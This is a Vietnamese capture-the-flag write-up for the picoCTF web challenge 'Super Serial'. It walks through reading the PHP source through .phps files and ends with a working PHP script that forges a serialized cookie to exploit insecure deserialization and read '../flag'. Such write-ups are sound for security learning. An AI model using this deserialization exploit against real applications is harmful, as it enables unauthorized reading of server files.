

# Super Serial

## Description

Try to recover the flag stored on this website http://mercury.picoctf.net:14804/

## Hint

The flag is at ../flag

## Point

130 points

## Solution

Khi truy cập vào task ta thấy 1 form login nhưng mk thề là nó chả làm gì đc.



Sau một hồi dùng dirseachh thì thấy có kha khá thư mục ẩn có thể truy cập : robots.txt, index.php, cookie.php, authentication.php.

Khi truy cập vào từng thư mục thì không có quá nhiều dữ kiện , tuy nhiên tại tệp **robots.txt** thì mk có một phát hiện đó là file *phps* - đây là file php nhưng ko thực thi code mà chỉ hiện code dưới dạng text.

> robots.txt
```
User-agent: *
Disallow: /admin.phps
```

Vậy ta có thể xem code các file php khác nhờ vào việc thêm 's' vào đuôi php.

> index.phps

```
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
        $con = new SQLite3("../users.db");
        $username = $_POST["user"];
        $password = $_POST["pass"];
        $perm_res = new permissions($username, $password);
        if ($perm_res->is_guest() || $perm_res->is_admin()) {
                setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
                header("Location: authentication.php");
                die();
        } else {
                $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
        }
}
?>
```

> cookie.phps 

```
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

> authentication.phps

```
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
Ta có thể thấy khi đăng nhập thành công thì sẽ có một cookie được cấp , cookie  này sẽ phân biệt giữa guest và admin .

Không những vậy nếu người đăng nhập là admin thì phiên đăng nhập sẽ được ghi vào một file log (access_log).

Để ý trong class access_log có một biến $log_file , vì thế vector tần công sẽ là giả mạo cookie bằng cách truyền vào access_log biến $log_file = '../flag' .

```
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

Sau đó gửi cookie giả mạo này , trước tiên server sẽ decode và check xem cookie có đúng dạng >$perm_res = new permissions($username, $password); nhưng do ta truyền vào là >..flag nên sẽ phát sinh lỗi và chương trình sẽ thực hiện :

```
catch(Error $e){
		die("Deserialization error. ".$perm);
	}
```
Việc này sẽ dẫn đến thực hiện các hàm :

```
function __toString() {
		return $this->read_log();
	}
function read_log() {
		return file_get_contents($this->log_file);
	}
```

Vì thế thứ thực sự được in ra sẽ là flag .

## Payload
```
<?php

class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}

$perm_res = new access_log("../flag");
$perm_res_encoded =  urlencode(base64_encode(serialize($perm_res)));
echo $perm_res_encoded;
```

Sau khi giả mạo cookie bạn chỉ cần gửi nó lên và get flag .
